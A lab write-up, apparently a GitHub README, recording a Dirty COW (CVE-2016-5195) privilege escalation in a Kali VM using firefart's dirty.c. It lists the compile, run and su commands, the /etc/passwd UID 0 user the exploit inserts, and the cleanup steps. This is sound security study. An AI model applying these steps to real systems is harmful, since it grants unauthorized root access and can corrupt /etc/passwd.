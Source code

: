 # 🐄 Lab06 – Dirty COW (CVE-2016-5195) Local Privilege Escalation

> **Date:** 7 June 2025  
> **Exploit:** Dirty COW – Write-what-where race condition in Linux  
> **CVE:** [CVE-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195)  
> **Target System:** Kali Linux 2025.1c (x64)

---

## 🛡️ Description

This lab demonstrates a **local privilege escalation** attack using the Dirty COW vulnerability.  
It exploits a race condition in the Linux kernel’s memory subsystem that allows **unauthorized write access to read-only memory**. By leveraging this flaw, we created a new root-privileged user by modifying `/etc/passwd`.

---

## 🎯 Target System

- **Operating System:** Kali Linux 2025.1c  
- **Kernel:** Vulnerable to Dirty COW  
- **Tool Used:** `dirty.c` (by [firefart](https://github.com/firefart))  
- **Exploit Result:** Gained root shell via custom user `firefart`

---

## 🧨 Exploitation Steps

1. **Transfer Exploit to Target**
   - Used VirtualBox Shared Folder to move `dirty.c` into the VM

2. **Compile the Exploit**
   ```bash
   gcc -pthread dirty.c -o dirty -lcrypt
   ```
3. **Run the Exploit**
   ```bash
   ./dirty
  - Chose a new password when prompted

  - Script modified /etc/passwd to insert a firefart user with UID=0
4. **Access Root via su**
  ```bash
  su firefart
  whoami   # → root
  id       # → uid=0(root)
```
5. **(Optional) Manual Fix**
If exploit entry is malformed:
```bash
sudo nano /etc/passwd
```
  - Correct the firefart line manually
6. **Clean Up**
    ```bash
    mv /tmp/passwd.bak /etc/passwd

---

## 📊 Real-World Relevance
Dirty COW remained unpatched in many Linux systems for years. Even after its disclosure in 2016, production environments with unpatched kernels were exploited in the wild.
Understanding Dirty COW is essential for Red Teamers and system hardeners alike — both for attack and defense.

---

## 🧠 What I Learned
How race conditions can be exploited to overwrite protected files

Deep understanding of how /etc/passwd and user privilege assignment works

Importance of system integrity and restoring state after exploitation

Practical use of privilege escalation techniques on real systems

How to handle system instability (e.g. high CPU usage, freezing) during kernel exploits

---

## Screenshots
Step	Description	Screenshot
1	Compiled dirty.c and ran the exploit	![Compile and run](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab06/Screen%20Shot%202025-06-07%20at%2015.59.52.png)
2	Root shell obtained via su firefart	![Root shell](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab06/Screen%20Shot%202025-06-07%20at%2015.57.03.png)
3	Verified UID=0 and restored passwd	![Cleanup](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab06/Screen%20Shot%202025-06-07%20at%2016.00.08.png)

---

## 📁 Notes
  - This exploit does not require internet access — useful in air-gapped testing

  - Dirty COW is still exploitable on many embedded or neglected systems

  - Cleanup is critical — careless use of Dirty COW can permanently damage /etc/passwd
